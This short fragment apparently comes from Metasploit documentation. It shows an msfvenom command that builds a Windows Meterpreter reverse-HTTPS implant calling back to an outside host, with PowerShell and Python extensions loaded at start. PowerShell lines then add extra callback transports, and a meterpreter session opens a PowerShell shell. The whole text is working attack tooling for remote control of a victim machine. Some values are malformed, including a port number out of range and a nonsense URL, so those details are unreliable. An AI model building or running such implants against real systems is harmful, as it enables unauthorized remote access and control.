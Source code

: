 msfvenom -p windows/meterpreter_reverse_https LHOST=foo.com LPORT=443 EXTENSIONS=stdapi,priv,powershell,python EXTINIT=powershell,/tmp/addtransports.ps1:python,/tmp/foo.py -o /tmp/output.exe

Add-WebTransport -Url https://fddfjsdlfds
Add-TcpTransport -Host bar.com -Port 432432

meterpreter> powershell_shell
PS> Get-Help Add-WebTransport -Full

